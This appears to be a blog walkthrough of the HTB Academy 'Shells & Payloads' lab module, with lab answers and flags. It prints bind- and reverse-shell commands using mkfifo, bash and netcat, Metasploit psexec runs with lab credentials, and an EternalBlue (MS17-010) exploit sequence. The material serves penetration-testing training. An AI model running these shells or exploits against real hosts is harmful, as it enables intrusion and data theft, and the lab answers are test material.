Welcome to **Part 16** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Shells & Payloads** (Tier I • Medium • Offensive). We break down the underlying mechanics of reverse shells, bind shells, web shells, MSFvenom payload generation, shell stabilization (TTY upgrading), and encrypted command-and-control channels, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-15-vulnerability-assessment/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 15: Vulnerability Assessment Methodologies & Scanners</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 16 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-17-sql-injection-fundamentals/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 17: SQL Injection Fundamentals & Exploitation</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Shells & Payloads` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/115](https://academy.hackthebox.com/module/115) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 16 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Shell Architecture**: Distinguishes between reverse shells (target connects back to tester) and bind shells (target opens listening port for tester).
* **Payload Engineering**: Compiles customized payloads using `msfvenom` across multiple formats: ELF, EXE, ASPX, WAR, PHP, and raw shellcode.
* **Shell Stabilization & TTY Spawning**: Upgrades dumb netcat sessions into fully functional interactive TTY shells using Python `pty`, `stty raw -echo`, and Socat.
* **Encrypted Reverse Shells**: Establishes secure communication channels using OpenSSL certificates and Socat to evade network intrusion detection systems.
* **Egress Filtering Bypass**: Routes reverse shell connections over standard allowed outbound ports (TCP 80, 443, 53) to bypass egress firewalls.

## Executive Summary & Assessment Scope

Gaining command execution is only the first step in host exploitation. Transforming raw execution primitives into stable, interactive, and encrypted shell sessions is essential for effective post-exploitation and privilege escalation.

This module provides a comprehensive technical study of shells and payloads. We examine reverse, bind, and web shells across Linux and Windows platforms, compile customized payloads with MSFvenom, master TTY terminal stabilization, and configure encrypted communication channels, solving all module flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Shells & Payloads

#### Technical Methodology & Exploit Execution:

```bash
ssh <username>@<target-IP>
```
and then we will be requested to enter the password.
For windows – we will use xfreerdp with the command:
```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password>
/dynamic-resolution
```
to RDP connect to the machine.
Throughout the module, those steps will be referred as 'login to the
Linux/Windows target machine'.


### Anatomy of a Shell

> **Lab Question (Page 2)**: Which two shell languages did we experiment with in this section? (Format: shellname&shellname)
>
> **Flag / Answer**: `Bash&PowerShell`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, in the hint we are instructed to submit the answer in
alphabetical order.
Now – this screenshot from the section's guide:

Clearly displayed that the language that were experimented on are bash and
powershell.


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


> **Lab Question (Page 3)**: In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.
>
> **Flag / Answer**: `Core`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Lets open the powershell on the pwnbox, and enter the command:
$PSversiontable


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


### Bind Shells

> **Lab Question (Page 4)**: Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?
>
> **Flag / Answer**: `443`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the client connection port has to match the port in which the server is
operates on, in this case – 443.

Question: SSH to the target, create a bind shell, then use netcat to connect to
the target using the bind shell you set up. When you have completed the
exercise, submit the contents of the flag.txt file located at /customscripts.
Answer: B1nD_Shells_r_cool
Method: lets ssh login to the target machine using the provided credentials
'htb-student:HTB_@cademy_stdnt!'.

in the target machine, we create a bind shell listener on port 4444, using the
command:
rm -f /tmp/f;
mkfifo /tmp/f;
```bash
cat /tmp/f | /bin/bash -i 2>&1 | nc -l <target-IP> 4444 >
/tmp/f
```


Now the bind shell on the target machine is awaiting for connections. Lets
connect from the pwnbox, we will use the command:
```bash
nc -nv <target-IP> 4444
```


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


### Lets cat the flag in '/customscripts'

And we are in.
Lets cat the flag in '/customscripts':
```bash
cat /customscripts/flag.txt
```


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### Reverse Shells

> **Lab Question (Page 6)**: When establishing a reverse shell session with a target, will the target act as a client or server?
>
> **Flag / Answer**: `client`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

' effectively meaning our attack box becomes the server and the target becomes
the client.'

Question: Connect to the target via RDP and establish a reverse shell session
with your attack box then submit the hostname of the target box.
Answer: Shells-Win10
Method: lets RDP connect to the windows target machine using the provided
credentials 'htb-student:HTB_@cademy_stdnt!'.
Before we do anything in the target machine, lets set netcat listener on the
pwnbox, listening in port 4444:
```bash
nc -lnvp 4444
```


now we need the reverse shell payload, lets go to the website:
`https://www.revshells.com/`
and set the attacker IP and the netcat listener port:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### machine

#### Technical Methodology & Exploit Execution:

hostname


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


*_Figure 7.4 — Lab execution and output verification (Page 7)_*


### Automating Payloads & Delivery with Metasploit

> **Lab Question (Page 8)**: What command language interpreter is used to establish a system shell session with the target?
>
> **Flag / Answer**: `powershell`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'Like other command language interpreters (Bash, PowerShell, ksh, etc...)'

Question: Exploit the target using what you've learned in this section, then
submit the name of the file located in htb-student's Documents folder.
(Format: filename.extension)
Answer: staffsalaries.txt
Method: for this question we are provided with the credentials:
'htb-student:HTB_@cademy_stdnt!' but we are not told what services it runs.
We will have to find those ourselves, we will use nmap scanning – using the
command:
```bash
nmap -sV -Pn <target-IP>
```


Lets concentrate on the smb service (port 445).


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


### shares we have access to

#### Technical Methodology & Exploit Execution:

```bash
msfconsole
```

then we enter
```bash
use windows/smb/psexec
```

then we set the values:
```bash
set RHOSTS <target-IP>
set SHARE ADMIN$
set SMBUser htb-student
set SMBPass HTB_@cademy_stdnt!
set LHOST <attacker-IP>
```
*we can also access the share 'C$' and it will work. *


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


We can confirms the settings with 'options', and when ready – we enter:
```bash
exploit
```


We have a shell.
Now this shell is a bit silly, it's a windows shell but it accepts '/' in the path, not
'\' (like it should as its windows).
Anyway lets 'ls' the 'htb-student' Documents folder and see what we get:
```bash
ls C:/Users/htb-student/Documents
```


The non-trivial file in the user's Documents folder is 'staffsalaries.txt'.


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### Infiltrating Windows

> **Lab Question (Page 11)**: What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something')
>
> **Flag / Answer**: `.bat`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'Batch Batch files are text-based DOS scripts utilized by system administrators to
complete multiple tasks through the command-line interpreter. These files end with an
extension of .bat.'

Question: What Windows exploit was dropped as a part of the Shadow Brokers
leak? (Format: ms bulletin number, e.g. MSxx-xxx)
Answer: MS17-010
Method:


Question: Gain a shell on the vulnerable target, then submit the contents of
the flag.txt file that can be found in C:\
Answer: EB-Still-W0rk$
Method: in this question we are not provided with a accessible service, nor
with credentials. so we will have to figure a way in on our own.
Lets run nmap scan:
```bash
nmap -sV <target-IP>
```


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


#### Technical Methodology & Exploit Execution:

```bash
nmap -p 445 --script smb-protocols -sV <target-IP>
```


The SMB version is indeed SMBv1. We may proceed with the 'MS17-010 –
Eternal Blue' exploit.


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### Host is likely vulnerable. Lets proceed with the attack

Lets start generating the payload, we will use Metasploit.
```bash
msfconsole
```

and determine if our target is indeed vulnerable to 'Eternal Blue':
```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <target-IP>
run
```


```bash
Host is likely vulnerable. Lets proceed with the attack:
use exploit/windows/smb/ms17_010_psexec
set RHOSTS <target-IP>
set LHOST <attacker-IP>
exploit
```
* of course we can confirm the exploit parameters with 'options'. *

We have a shell! Lets get the flag (remember, use '/'):
```bash
cat C:/flag.txt
```


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


### Infiltrating Unix/Linux

> **Lab Question (Page 14)**: What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce?
>
> **Flag / Answer**: `php`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

looking at this screenshot from the section's guide:

We can notice the payload file being uploaded is a php file.

Question: Exploit the target and find the hostname of the router in the
devicedetails directory at the root of the file system.
Answer: edgerouter-isp
Method: lets begin with nmap scan the target machine:
```bash
nmap -sV <target-IP>
```


*_Figure 14.1 — Lab execution and output verification (Page 14)_*

